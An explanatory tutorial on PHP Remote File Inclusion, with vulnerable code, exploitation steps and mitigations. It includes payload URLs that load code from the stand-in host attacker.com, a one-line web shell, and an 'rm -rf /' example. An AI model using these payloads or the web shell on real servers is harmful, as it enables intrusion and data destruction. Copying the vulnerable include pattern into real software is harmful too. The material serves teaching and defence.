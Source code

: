 ## Remote File Inclusion (RFI)
Remote File Inclusion (RFI) is **a web security vulnerability that allows an attacker to include and execute a remote file on a web server by manipulating user input**. Although RFI was historically a significant threat, it is less common today due to better secure coding practices and restrictions in modern web environments.

## 1. How Remote File Inclusion Works
RFI occurs when a web application **dynamically includes files based on user input without proper validation or sanitization**. This vulnerability allows attackers to include malicious files hosted on remote servers.

### Vulnerable Code Example
```
<?php
    $file = $_GET['file'];
    include($file);
?>
```
### Input URL
```
http://example.com/index.php?file=http://attacker.com/malicious.php
```

### What Happens
  - The application fetches http://attacker.com/malicious.php.
  - The included file executes as part of the server’s PHP script, potentially compromising the system.


## 2. Why RFI Is Less Common Today
### 1. Modern PHP Settings
- By default, modern versions of PHP **disable the allow_url_include directive**.
- This prevents inclusion of remote files via functions like include() or require().
- Example (disabled in php.ini)
```
allow_url_include = Off
```

### 2. Secure Coding Practices
- Increased awareness of input sanitization and validation has reduced RFI vulnerabilities.

### 3. Content Security Policy (CSP)
- Modern web applications **enforce CSP headers**, restricting the inclusion of untrusted scripts and resources.
### 4. Prevalence of Local File Inclusion (LFI)
- Attackers often exploit LFI, which is more common and easier to find.


## 3. Exploitation Techniques

### a. File Inclusion
- Inject a remote file containing malicious code (e.g., a **web shell**).
- Example Payload
```
http://example.com/index.php?file=http://attacker.com/shell.php
```

### b. Code Execution
- Execute PHP code directly through a remotely included file.
- Example
  - http://attacker.com/shell.php contains:
```
<?php system($_GET['cmd']); ?>
```

  - Access via
```
http://example.com/index.php?file=http://attacker.com/shell.php&cmd=id
```

### c. Information Gathering
- Attackers may include remote files to **exfiltrate sensitive data**.


## 4. Potential Impact of RFI
### 1. Code Execution
  - Remote files containing PHP or server-side code can execute arbitrary commands.
  - Example
```
<?php
system('rm -rf /');
?>
```

### 2. Data Exfiltration
  - Steal sensitive data such as database credentials or user information.

### 3. Privilege Escalation
  - Gain elevated privileges by injecting scripts that exploit local configurations.

### 4. Web Shell Deployment
  - Install persistent backdoors for ongoing access.


## 5. Mitigation Techniques
### 1. Disable Remote File Inclusion
  - **Set allow_url_include to Off in php.ini**
```
allow_url_include = Off
```

### 2. Sanitize and Validate Input
  - Restrict user input to a predefined whitelist of acceptable files.
  - Example (PHP)
```
$allowed_files = ['home.php', 'about.php', 'contact.php'];
if (in_array($_GET['file'], $allowed_files)) {
    include($_GET['file']);
} else {
    die("Access Denied");
}
```

### 3. Use Secure File Inclusion
  - Always **use static paths** or resolve files locally.
  - Example
```
include('pages/' . basename($_GET['file']));
```

### 4. Restrict File Permissions
  - Limit access to sensitive files and directories on the server.

### 5. Content Security Policy (CSP)
  - **Enforce CSP headers** to restrict external script and resource inclusion:
```
Content-Security-Policy: script-src 'self';
```

### 6. Web Application Firewalls (WAF)
  - **Use WAFs** to block suspicious patterns indicative of RFI attacks (e.g., URLs in file parameters).


## 6. Tools for Detection
### 1. Burp Suite
  - Test for RFI vulnerabilities by sending malicious file inclusion payloads.

### 2. OWASP ZAP
  - Automated scanning for RFI in web applications.

### 3. Nikto
  - A web server scanner that detects RFI vulnerabilities.

### 4. Manual Testing
  - Use payloads like:
```
http://example.com/index.php?file=http://attacker.com/malicious.php
```


## 7. Real-World Example

### Case Study: RFI in PHP Applications
  - An old PHP application dynamically included files based on user input.
  - An attacker injected
```
http://example.com/index.php?file=http://attacker.com/malicious.php
```

  - The malicious file installed a web shell, allowing the attacker to execute arbitrary commands, upload additional scripts, and exfiltrate sensitive data.


## 8. Summary

| Aspect | Details |
| ------ | ------- |
| What is RFI? | Vulnerability allowing inclusion of remote files via user input. |
| Impact | Code execution, data theft, web shell installation, privilege escalation. |
| Why Less Common? | Modern PHP disables allow_url_include; better coding practices. |
| Prevention Techniques | Disable allow_url_include, validate input, enforce CSP, use WAF. |
| Tools for Detection | Burp Suite, OWASP ZAP, manual payload testing. |


**While Remote File Inclusion (RFI) is less common today due to improved server and application configurations, it remains a critical vulnerability for legacy systems and poorly configured applications**. By adopting **secure coding practices**, **validating user input**, and leveraging **server-side restrictions**, organizations can effectively mitigate the risks associated with RFI.